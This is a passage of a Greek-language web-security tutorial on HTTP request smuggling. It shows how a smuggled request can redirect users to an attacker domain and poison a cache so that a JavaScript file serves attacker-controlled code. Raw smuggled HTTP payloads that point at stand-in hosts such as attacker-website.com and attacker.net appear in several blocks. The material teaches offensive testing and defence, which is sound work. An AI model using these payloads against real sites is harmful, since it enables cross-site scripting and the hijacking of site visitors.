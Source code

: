 Αυτό το λαθραίο αίτημα θα μπορούσε να προκαλέσει την ανακατεύθυνση του επόμενου επεξεργασμένου αιτήματος χρήστη σε μια ιστοσελίδα που ελέγχεται από τον επιτιθέμενο:
```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```
Αποτελέσματα σε:
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
Σε αυτό το σενάριο, το αίτημα ενός χρήστη για ένα αρχείο JavaScript παραβιάζεται. Ο επιτιθέμενος μπορεί δυνητικά να συμβιβάσει τον χρήστη παρέχοντας κακόβουλο JavaScript ως απάντηση.

### Εκμετάλλευση της δηλητηρίασης της μνήμης cache μέσω HTTP Request Smuggling <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Η δηλητηρίαση της μνήμης cache μπορεί να εκτελεστεί εάν οποιοδήποτε στοιχείο της **υποδομής front-end αποθηκεύει περιεχόμενο**, συνήθως για να βελτιώσει την απόδοση. Με την παραποίηση της απάντησης του διακομιστή, είναι δυνατόν να **δηλητηριαστεί η μνήμη cache**.

Προηγουμένως, παρατηρήσαμε πώς οι απαντήσεις του διακομιστή θα μπορούσαν να τροποποιηθούν ώστε να επιστρέφουν ένα σφάλμα 404 (ανατρέξτε σε [Βασικά Παραδείγματα](./#basic-examples)). Ομοίως, είναι εφικτό να ξεγελάσουμε τον διακομιστή ώστε να παραδώσει περιεχόμενο `/index.html` ως απάντηση σε ένα αίτημα για `/static/include.js`. Ως αποτέλεσμα, το περιεχόμενο `/static/include.js` αντικαθίσταται στη μνήμη cache με αυτό του `/index.html`, καθιστώντας το `/static/include.js` μη προσβάσιμο στους χρήστες, δυνητικά οδηγώντας σε άρνηση υπηρεσίας (DoS).

Αυτή η τεχνική γίνεται ιδιαίτερα ισχυρή εάν ανακαλυφθεί μια **ευπάθεια Open Redirect** ή εάν υπάρχει **ανακατεύθυνση στον ιστό προς μια ανοιχτή ανακατεύθυνση**. Τέτοιες ευπάθειες μπορούν να εκμεταλλευτούν για να αντικαταστήσουν το αποθηκευμένο περιεχόμενο του `/static/include.js` με ένα σενάριο υπό τον έλεγχο του επιτιθέμενου, επιτρέποντας ουσιαστικά μια εκτενή επίθεση Cross-Site Scripting (XSS) σε όλους τους πελάτες που ζητούν το ενημερωμένο `/static/include.js`.

Παρακάτω είναι μια απεικόνιση της εκμετάλλευσης της **δηλητηρίασης cache σε συνδυασμό με μια ανακατεύθυνση στον ιστό προς ανοιχτή ανακατεύθυνση**. Ο στόχος είναι να τροποποιηθεί το περιεχόμενο της μνήμης cache του `/static/include.js` ώστε να εξυπηρετεί κώδικα JavaScript που ελέγχεται από τον επιτιθέμενο:
```
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
Σημειώστε το ενσωματωμένο αίτημα που στοχεύει το `/post/next?postId=3`. Αυτό το αίτημα θα ανακατευθυνθεί στο `/post?postId=4`, χρησιμοποιώντας την **τιμή κεφαλίδας Host** για να προσδιορίσει το domain. Αλλάζοντας την **κεφαλίδα Host**, ο επιτιθέμενος μπορεί να ανακατευθύνει το αίτημα στο δικό του domain (**on-site redirect to open redirect**).
